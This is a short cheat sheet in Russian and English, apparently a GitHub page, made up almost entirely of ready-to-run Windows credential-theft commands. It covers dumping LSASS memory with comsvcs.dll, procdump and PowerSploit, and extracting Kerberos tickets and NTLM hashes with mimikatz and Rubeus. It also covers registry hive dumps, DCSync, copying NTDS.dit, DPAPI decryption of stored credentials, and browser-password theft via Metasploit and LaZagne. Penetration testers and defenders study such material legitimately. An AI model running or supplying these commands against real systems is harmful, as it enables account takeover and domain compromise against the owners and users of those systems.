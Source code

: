 ## Извлечение Kerberos-tickest через дамп виртуальной памяти:
**Три способа дампа памяти:**  
1) taskmgr.exe → ПКМ по lsass.exe → дамп памяти;  
2) rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 624 C:\temp\lsass.dmp full  
3) procdump.exe -ma lsass.exe /accepteula.  
  
Если дамп удалось создать, то билеты можно безопасно извлечь уже на своей стороне:  
mimikatz.exe -> sekurlsa::Minidump lsass.dmp -> sekurlsa::tickets /export  
  
## Извлечение Kerberos-tickest (Rubeus):  
**Список доступных тикетов**: Rubeus.exe triage  
**Извлекаем TGT пользователя**: Rubeus.exe dump /luid:0xfffff /service:krbtgt /nowrap  
**Aditional information**: Tickets for the service name krbtgt are Ticket Granting Tickets (TGTs) and others are Ticket Granting Service Tickets (TGSs).  

## Извлечение хешей SAM (нужны учетные данные пользователя):  
secretsdump.py [domain]/[username]:[password]@[TARGET IP]  

## Извлечение хешей SAM (mimikatz):  
\mimikatz.exe token::elevate lsadump::sam exit  

## Извлечение NTLM/plaintext passwords (mimikatz):  
\mimikatz.exe token::elevate sekurlsa::logonpasswords exit  

## Извлечение Kerberos Encryption Keys (mimikatz): extract aes256_hmac value  
\mimikatz.exe token::elevate sekurlsa::ekeys exit  

## Domain cached credentials:  
Позволяет исользовать учетные данные домена, если нет связи с DC.   
\mimikatz.exe token::elevate lsadump::cache exit  

## DCSync (mimikatz):  
\mimikatz.exe token::elevate lsadump::dcsync exit  

## Powershell mimikatz:  
1) Invoke-Mimikatz -DumpCreds  
2) Invoke-Mimikatz -DumpCreds -ComputerName@("comp1","comp2")  

## DCSync with Kiwi:  
load kiwi  
dcsync_ntlm username  

## Manualy dump registry with Reg:
reg.exe save hklm\sam c:\temp\sam.save -> reg.exe save hklm\security c:\temp\security.save -> reg.exe save hklm\system c:\temp\system.save

**Crack dumped registry data**:  
1. creddump7\pwdump.py system sam  
2. secretsdump.py -system system -sam sam LOCAL  

## Retrieval of NTDS.DIT with ntdsutil:  
ntdsutil "activate instance ntds" ifm "create full C:\temp\ntdsutil" quit quit  

## Dump of LSASS with ProcDump:  
C:\Users\Administrator\Downloads\procdump.exe -accepteula -64 -ma lsass.exe c:\temp\lsass.dmp  

## Dump of LSASS with pd:  
C:\Users\Administrator\Downloads\pd.exe -p 552 > c:\temp\lsass.dump  

## Dump of LSASS with Minidump:  
Import-Module c:\users\administrator\downloads\PowerSploit-master\Exfiltration\Out-Minidump.ps1  
Get-Process lsass | Out-Minidump -DumpFilePath c:\temp  

## Retrieval of NTDS.DIT with NinjaCopy:  
**Local**:  
1) Import-Module C:\Users\Administrator\Downloads\PowerSploit-master\Exfiltration\Invoke-NinjaCopy.ps1  
2) Invoke-NinjaCopy -Path "c:\windows\ntds\ntds.dit" -LocalDestination "c:\temp\ntds.dit"  

**Remote**:  
1) Import-Module C:\Users\Administrator\Downloads\PowerSploit-master\Exfiltration\Invoke-NinjaCopy.ps1  
2) Invoke-NinjaCopy -Path "c:\windows\ntds\ntds.dit" -LocalDestination "c:\temp\ntds.dit" -ComputerName "WIN-25U0PFAB511"  

## Credentials manager (Seatbelt, Mimikatz):  
**List of credentials**:  
 - vaultcmd /list  
 - Seatbelt.exe WindowsVault //(The encrypted credentials stored in the users' "Credentials" directory)  
 - Seatbelt.exe WindowsCredentialFiles  
 - dir C:\Users\username\AppData\Local\Microsoft\Credentials  

**Obtain master key for decrypt stored credentials**:  
1) Mimikatz 1: sekurlsa::dpapi  
2) Mimikatz 2: dpapi::masterkey /in:C:\Users\username\AppData\Roaming\Microsoft\Protect\SID\GUID /rpc  

**Decrypt stored credentials**:  
mimikatz dpapi::cred /in:C:\Users\username\AppData\Local\Microsoft\Credentials\ID /masterkey:masterkeyValue  

## Scheduled Task Credentials (Mimikatz):  
**List of tasks**: dir C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials  

**Find GIUD amd master key**: 
  - dpapi::cred /in:C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\ID //GUID  
  - sekurlsa::dpapi //master key  

**Decrypt stored creds**:  
dpapi::cred /in:C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\ID /masterkey:masterkeyValue  

## Browser storage:  
**Metasploit**:  
1) run post/windows/gather/enum_chrome 
2) run post/windows/gather/credentials/chrome  
3) run post/multi/gather/firefox_creds  

Rename file.bin to cert9.db

**Tools for crack firefox passwords**: https://github.com/Unode/firefox_decrypt  

## LAZAGNE.EXE:  
lazagne.exe all  

